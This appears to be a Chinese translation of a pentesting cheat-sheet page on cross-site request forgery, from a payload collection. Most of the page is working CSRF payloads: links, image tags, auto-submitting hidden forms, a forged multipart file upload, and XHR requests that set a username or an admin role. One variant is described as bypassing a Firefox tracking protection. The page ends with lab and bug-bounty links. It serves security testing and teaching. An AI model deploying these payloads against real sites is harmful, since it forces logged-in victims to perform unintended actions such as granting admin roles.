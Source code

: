 # 跨站请求伪造 (CSRF)

> 跨站请求伪造(CSRF/XSRF)是一种攻击，它强制终端用户在已认证的Web应用程序上执行非预期的操作。CSRF攻击特别针对状态变更请求，而不是数据窃取，因为攻击者无法看到伪造请求的响应。 - OWASP

## 目录

* [工具](#工具)
* [方法学](#方法学)
    * [HTML GET - 需要用户交互](#html-get---需要用户交互)
    * [HTML GET - 无需用户交互](#html-get---无需用户交互)
    * [HTML POST - 需要用户交互](#html-post---需要用户交互)
    * [HTML POST - 自动提交 - 无需用户交互](#html-post---自动提交---无需用户交互)
    * [HTML POST - 带文件上传的multipart/form-data - 需要用户交互](#html-post---带文件上传的multipartform-data---需要用户交互)
    * [JSON GET - 简单请求](#json-get---简单请求)
    * [JSON POST - 简单请求](#json-post---简单请求)
    * [JSON POST - 复杂请求](#json-post---复杂请求)
* [实验环境](#实验环境)
* [参考资料](#参考资料)

## 工具

* [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - 主要的跨站请求伪造审计和利用工具包。

## 方法学

![CSRF速查表](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

当您登录某个网站时，通常会有一个会话。该会话的标识符存储在浏览器的cookie中，并在每次向该站点发送请求时一起发送。即使是由其他网站触发的请求，cookie也会随请求一起发送，并且该请求会被视为已登录用户执行的操作。

### HTML GET - 需要用户交互

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">点击我</a>
```

### HTML GET - 无需用户交互

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - 需要用户交互

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="提交请求" />
</form>
```

### HTML POST - 自动提交 - 无需用户交互

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="提交请求" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - 带文件上传的multipart/form-data - 需要用户交互

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF文件内容" ], "CSRF文件名" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<目标>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">提交请求</button>
```

### JSON GET - 简单请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - 简单请求

使用XHR：

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
// 简单请求中不允许使用application/json。text/plain是默认值
xhr.setRequestHeader("Content-Type", "text/plain");
// 您可能还想尝试以下一个或两个
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

使用自动提交表单，可绕过某些浏览器保护，如Firefox浏览器中[增强型跟踪保护](https://support.mozilla.org/zh-CN/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection)的标准选项：

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
<!-- 此输入将发送：{"role":admin,"other":"="} -->
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - 复杂请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## 实验环境

* [PortSwigger - 无防御的CSRF漏洞](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [PortSwigger - 令牌验证依赖于请求方法的CSRF](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [PortSwigger - 令牌验证依赖于令牌是否存在的CSRF](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [PortSwigger - 令牌未绑定到用户会话的CSRF](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [PortSwigger - 令牌绑定到非会话cookie的CSRF](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [PortSwigger - 令牌在cookie中重复的CSRF](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [PortSwigger - Referer验证依赖于请求头是否存在的CSRF](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [PortSwigger - Referer验证存在缺陷的CSRF](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## 参考资料

* [跨站请求伪造速查表 - Alex Lauerman - 2016年4月3日](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
* [跨站请求伪造(CSRF) - OWASP - 2024年4月19日](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
* [Messenger.com CSRF漏洞 - Jack Whitton - 2015年7月26日](https://whitton.io/articles/messenger-site-wide-csrf/)
* [PayPal漏洞赏金：未经同意更新PayPal.me个人资料图片(CSRF攻击) - Florian Courtial - 2016年7月19日](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
* [一键入侵PayPal账户(已修复) - Yasser Ali - 2014年10月9日](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
* [添加推文到收藏夹的CSRF - Vijay Kumar (indoappsec) - 2015年11月21日](https://hackerone.com/reports/100820)
* [Facebookmarketingdevelopers.com：代理、CSRF困境和API乐趣 - phwd - 2015年10月16日](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
* [我是如何入侵您的Beats账户的？Apple漏洞赏金 - @aaditya_purani - 2016年7月20日](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
* [FORM POST JSON：POST Heartbeats API上的JSON CSRF - Eugene Yakovchuk - 2017年7月2日](https://hackerone.com/reports/245346)
* [使用Oculus-Facebook集成中的CSRF入侵Facebook账户 - Josip Franjkovic - 2018年1月15日](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
* [跨站请求伪造(CSRF) - Sjoerd Langkemper - 2019年1月9日](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
* [跨站请求伪造攻击 - PwnFunction - 2019年4月5日](https://www.youtube.com/watch?v=eWEgUcHPle0)
* [消除CSRF - Joe Rozner - 2017年10月17日](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
* [绕过CSRF的Referer检查逻辑 - hahwul - 2019年10月11日](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)

---

*最后更新: 2025年6月*
